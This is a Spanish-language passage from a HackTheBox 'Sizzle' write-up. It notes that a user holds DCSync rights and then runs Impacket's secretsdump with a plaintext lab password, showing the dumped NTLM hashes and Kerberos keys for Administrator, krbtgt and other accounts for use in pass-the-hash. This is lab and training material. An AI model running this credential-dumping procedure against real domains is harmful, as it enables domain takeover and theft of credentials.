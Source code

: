 ![](/assets/images/Sizzle/img6.png)


El usuario tiene derechos de DCSync por lo tanto podemos extraer los hash con secretsdump y utilizarlos para hacer PassTheHash.

```bash
❯ secretsdump.py HTB.LOCAL/mrlky:Football#7@10.10.10.103
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:f6b7160bfc91823792e0ac3a162c9267:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:296ec447eee58283143efbd5d39408c8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
amanda:1104:aad3b435b51404eeaad3b435b51404ee:7d0516ea4b6ed084f3fdf71c47d9beb3:::
mrlky:1603:aad3b435b51404eeaad3b435b51404ee:bceef4f6fe9c026d1d8dec8dce48adef:::
sizzler:1604:aad3b435b51404eeaad3b435b51404ee:d79f820afad0cbc828d79e16a6f890de:::
SIZZLE$:1001:aad3b435b51404eeaad3b435b51404ee:62b5a4f3becfddc769f690d5c4b015ff:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:e562d64208c7df80b496af280603773ea7d7eeb93ef715392a8258214933275d
Administrator:aes128-cts-hmac-sha1-96:45b1a7ed336bafe1f1e0c1ab666336b3
Administrator:des-cbc-md5:ad7afb706715e964
krbtgt:aes256-cts-hmac-sha1-96:0fcb9a54f68453be5dd01fe555cace13e99def7699b85deda866a71a74e9391e
krbtgt:aes128-cts-hmac-sha1-96:668b69e6bb7f76fa1bcd3a638e93e699
krbtgt:des-cbc-md5:866db35eb9ec5173
amanda:aes256-cts-hmac-sha1-96:60ef71f6446370bab3a52634c3708ed8a0af424fdcb045f3f5fbde5ff05221eb
amanda:aes128-cts-hmac-sha1-96:48d91184cecdc906ca7a07ccbe42e061
```